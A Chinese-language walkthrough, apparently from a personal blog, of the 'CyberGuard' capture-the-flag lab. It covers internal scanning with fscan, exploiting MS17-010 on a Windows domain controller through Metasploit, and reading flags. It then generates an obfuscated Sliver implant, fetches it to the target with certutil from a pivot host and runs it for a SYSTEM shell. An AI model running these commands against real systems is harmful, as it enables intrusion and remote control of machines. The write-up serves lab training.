

测试连接，使用代理连接 `10.20.30.11` 的 `SSH` 服务

成功通过代理连接上去，使用之前得到的凭据进行登录即可



当前用户可以拿到 `user.txt`

```
ian@TheHackersLabs-2-Cyberguard:~$ cat user.txt 
1850a48e3bfe9d7da6b82ca9d18d392e
```

### **10.20.30.11**

尝试进行提权，查看 `sudo` 权限

```
ian@TheHackersLabs-2-Cyberguard:~$ sudo -l
Matching Defaults entries for ian on TheHackersLabs-2-Cyberguard:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User ian may run the following commands on TheHackersLabs-2-Cyberguard:
    (ALL) NOPASSWD: /usr/bin/tcpdump, /usr/sbin/arpspoof
```

我这里打算进行提权，但是`tcpdump` 并无法进行运行脚本，索性先放掉

> `tcpdump` 提权方法：<https://gtfobins.github.io/gtfobins/tcpdump/>

这里上传 `fscan` 进行内网扫描

```
sliver (FORMIDABLE_FLOOR) > upload ../../Tools/fscan/fscan_1.8.4

[*] Wrote file to /var/www/cyberguard/config/fscan_1.8.4
```

指定 `IP` 范围 `10.20.30.1-255` ，扫描所有

```
ian@TheHackersLabs-2-Cyberguard:~$ ./fscan_1.8.4 -h 10.20.30.1-255

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 10.20.30.11     is alive
(icmp) Target 10.20.30.1      is alive
(icmp) Target 10.20.30.3      is alive
(icmp) Target 10.20.30.15     is alive
[*] Icmp alive hosts len is: 4
10.20.30.3:445 open
10.20.30.3:139 open
10.20.30.3:135 open
10.20.30.1:80 open
10.20.30.15:22 open
10.20.30.11:22 open
10.20.30.11:8080 open
10.20.30.3:88 open
10.20.30.1:8090 open
[*] alive ports len is: 9
start vulscan
[+] MS17-010 10.20.30.3 (Windows Server 2016 Datacenter 14393)
[*] NetInfo 
[*]10.20.30.3
   [->]WIN-VRU3GG3DPLJ
   [->]10.20.30.3
[*] NetBios 10.20.30.3      [+] DC:WIN-VRU3GG3DPLJ.cyberguard.thl      Windows Server 2016 Datacenter 14393
[*] WebTitle http://10.20.30.11:8080   code:200 len:1045   title:Join Our Cybersecurity Team
[*] WebTitle http://10.20.30.1         code:200 len:1039   title:Join Our Cybersecurity Team
[*] WebTitle http://10.20.30.1:8090    code:200 len:2784   title:Login | OPNsense
```

### MS17-010 ✅

竟然枚举出来了 `10.20.30.3` 存在永恒之蓝（MS17-010），尝试一波

这里通过代理启动 `MSF` 即可，之后 `MSF` 的操作都是走代理了

```
proxychains4 -q msfconsole
```

搜索 `MS17_010` 模块



动静先不那么大，先尝试命令是否可以执行

```
msf6 auxiliary(admin/smb/ms17_010_command) > run
[*] 10.20.30.3:445        - Target OS: Windows Server 2016 Datacenter 14393
[*] 10.20.30.3:445        - Built a write-what-where primitive...
[+] 10.20.30.3:445        - Overwrite complete... SYSTEM session obtained!
[+] 10.20.30.3:445        - Service start timed out, OK if running a command or non-service executable...
[*] 10.20.30.3:445        - Getting the command output...
[*] 10.20.30.3:445        - Executing cleanup...
[+] 10.20.30.3:445        - Cleanup was successful
[+] 10.20.30.3:445        - Command completed successfully!
[*] 10.20.30.3:445        - Output for "whoami":

nt authority\system

[*] 10.20.30.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

回显 `system` 权限，那么这台机子就拿下了

一顿摸索后，可以直接读取 `root.txt`

```
msf6 auxiliary(admin/smb/ms17_010_command) > set ComMAND type C:\users\Administrador\Documents\root.txt
ComMAND => type C:\users\Administrador\Documents\root.txt
msf6 auxiliary(admin/smb/ms17_010_command) > run
[*] 10.20.30.3:445        - Target OS: Windows Server 2016 Datacenter 14393
[*] 10.20.30.3:445        - Built a write-what-where primitive...
[+] 10.20.30.3:445        - Overwrite complete... SYSTEM session obtained!
[+] 10.20.30.3:445        - Service start timed out, OK if running a command or non-service executable...
[*] 10.20.30.3:445        - Getting the command output...
[*] 10.20.30.3:445        - Executing cleanup...
[+] 10.20.30.3:445        - Cleanup was successful
[+] 10.20.30.3:445        - Command completed successfully!
[*] 10.20.30.3:445        - Output for "type C:\users\Administrador\Documents\root.txt":

02573xxxxxxxxxxxxxxxxxxxxxxx

[*] 10.20.30.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

拿 `shell` 的话可以生成 `Windows` 植入物

```
sliver (FORMIDABLE_FLOOR) > generate -o windows --wg 10.0.2.20 -a amd64 -f exe 

[*] Generated unique ip for wg peer tun interface: 100.64.0.7
[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 1m1s
[*] Implant saved to /root/Desktop/TheHackersLabs/CyberGuard/LONG_PRIVATE.exe
```

上传到 `10.20.30.11` 并开启 `HTTP` 服务器

```
ian@TheHackersLabs-2-Cyberguard:~$ python3 -m http.server 2131
Serving HTTP on 0.0.0.0 port 2131 (http://0.0.0.0:2131/) ...
```

然后通过 `certutil.exe` 下载到 `c` 盘

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command "certutil.exe -urlcache -split -f http://10.20.30.11:2131/LONG_PRIVATE.exe C:\LONG_PRIVATE.exe"
"
msf6 auxiliary(admin/smb/ms17_010_command) > run
[*] 10.20.30.3:445        - Target OS: Windows Server 2016 Datacenter 14393
[*] 10.20.30.3:445        - Built a write-what-where primitive...
[+] 10.20.30.3:445        - Overwrite complete... SYSTEM session obtained!
[+] 10.20.30.3:445        - Service start timed out, OK if running a command or non-service executable...
[*] 10.20.30.3:445        - Getting the command output...
[*] 10.20.30.3:445        - Executing cleanup...
[+] 10.20.30.3:445        - Cleanup was successful
[+] 10.20.30.3:445        - Command completed successfully!
[*] 10.20.30.3:445        - Output for "certutil.exe -urlcache -split -f http://10.20.30.11:2131/LONG_PRIVATE.exe":

****  En lnea  ****
  000000  ...
  1280000
CertUtil: -URLCache comando completado correctamente.

[*] 10.20.30.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

之后运行 `LONG_PRIVATE.exe`

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command "C:\LONG_PRIVATE.exe"
msf6 auxiliary(admin/smb/ms17_010_command) > run
```



这样就拿到 `shell` 了

```
sliver (LONG_PRIVATE) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 1292

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

## 总结

打完之后发现，内网中还有一台机子并没有拿到，但是 `flag` 只需要提交两个

看了一下官方的 `WP`，预期解并不是使用 `MS17-010` ，而是在另外一台 `Linux` 主机中监听数据包能得到 `Victor` 用户的 `Net-NTLM-hash` ，之后再使用 `certipy` 打 `ADCS`

官方 WP：<https://blog.thehackerslabs.com/resolucion-del-ctf-cyberguard/[g](https://blog.thehackerslabs.com/resolucion-del-ctf-cyberguard/)>

个人博客：<https://sunsetaction.top/>
